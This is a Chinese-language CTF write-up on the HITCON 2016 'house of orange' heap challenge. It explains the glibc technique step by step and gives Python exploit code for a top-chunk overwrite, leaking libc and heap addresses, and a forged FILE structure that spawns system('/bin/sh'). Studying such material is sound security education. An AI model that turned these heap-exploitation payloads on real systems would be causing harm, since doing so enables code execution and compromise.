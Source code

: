```yaml
---
title: hitcon 2016 house of orange
categories:
  - pwn
tags: house-of-orange
published: true
---
```


# Introduction

知识点：

[house_of_orange](https://github.com/shellphish/how2heap/blob/master/house_of_orange.c)

**[houseoforange](https://github.com/ctfs/write-ups-2016/tree/master/hitcon-ctf-2016/pwn/house-of-orange-500)**

houseoforange: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a58bda41b65d38949498561b0f2b976ce5c0c301, stripped

{% highlight bash %}

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled

{% endhighlight %}

这题每一个部分都设计的很精致的感觉，刚刚好4次 malloc，3 次 upgrade, `house of orange`  很精致的技术。

# Exploit

`house of orange` 的必要条件是能够 leak libc 和 heap。

溢出 top chunk 将其大小改写成较小的值，再 malloc 一个大于它的值使堆扩张后 free 掉 old top chunk，产生一个
unsorted bin chunk，仅仅是 unsorted bin addr 还不够，要 leak 堆地址需要对 malloc 更为熟悉，再 malloc 一个
large bin 大小的 chunk，unsorted bin 中的 chunk 会先放入其对应的 bin 中，若 old top 为 large bin 大小，其
fd_nextsize 和 bk_nextsize 域的值即为堆上的地址，此时 malloc 会扫描 bin，将 old top 进行分割来满足用户请求，
剩下的部分则又放入 unsorted bin 中。

溢出 top chunk 使其被放入 unsorted bin。

```python
build(0x1b0, p8(0)*0x1b0)

payload = p8(0)*(0x1b8+0x20)
payload += p64(0xe01)
upgrade(payload)

build(0xef0, p8(0)*0xef0)
```

leak，

```python
build(0x3f0, "A"*0x8)

...
0x556f556a0260: 0x00000000  0x00000000  0x00000401  0x00000000
0x556f556a0270: 0x41414141  0x41414141  0x550d0178  0x00007fb2
0x556f556a0280: 0x556a0260  0x0000556f  0x556a0260  0x0000556f
...

see()

p.recvuntil("A"*0x8)
libc_base = u64(p.recv(6).ljust(8, "\x00"))-0x3c5178
log.info("libc_base: "+hex(libc_base))

io_list_all = libc_base+io_list_off
system_addr = libc_base+system_off
unsorted_bin_addr = libc_base+unsorted_bin_off

upgrade("A"*0x10)

see()

p.recvuntil("A"*0x10)
heap_base = u64(p.recv(6).strip().ljust(8, "\x00"))-0x260
log.info("heap_base: "+hex(heap_base))
```

剩下的则是 house of orange 攻击链的构造。

```python
payload = p8(0)*0x410
payload += "/bin/sh\x00"
payload += p64(0x61)
payload += p64(unsorted_bin_addr)    
payload += p64(io_list_all-0x10)
payload += p64(2)
payload += p64(3)
payload += p8(0)*0x48
payload += p64(system_addr)
payload += p8(0)*0x58
payload += p64(heap_base+0x6e0)
upgrade(payload)
```

再调用一次 malloc 即可触发攻击链，成功调用 system("/bin/sh")。

[exp.py](https://github.com/0x3f97/pwn/tree/master/hitcon-ctf-2016-house-of-orange)
